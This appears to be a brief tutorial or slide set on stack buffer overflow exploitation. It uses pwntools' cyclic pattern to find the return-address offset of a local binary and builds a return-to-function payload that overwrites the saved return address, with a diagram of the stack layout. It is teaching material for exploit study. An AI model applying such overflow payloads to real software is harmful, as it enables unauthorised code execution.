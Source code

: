 ```shell
*** stack smashing detected ***: argv[0] terminated  
Aborted
```

## leak string

---

# Padding

```python
cyclic(100)
> 'aaaabaaacaaadaaaeaaafaaagaaahaaaiaaajaaakaaalaaamaaanaaaoaaapaaaqaaaraaasaaataaauaaavaaawaaaxaaayaaa'
```

```gdb
Stopped reason: SIGSEGV
0x61616165 in ?? ()
```

```python
cyclic_find(p32(0x61616165))
> 16
```

---

# Return to function

```python
elf=ELF('./a.out') # load elf
foo=elf.symbols['foo'] # function foo location
# gdb info function
addr=p32(foo) # convert int to memory type
# 0x12345678 in memory is 78 56 34 12
payload="A"*padding+addr
```

--

# Memory

|  addr  | content |
|  ---   |   ---   |
|  esp   |  AAAA   |
|  ...   |   ...   |
|  ebp   |  AAAA   |
| ebp+4  |  addr   |
| ebp+8  |  args   |
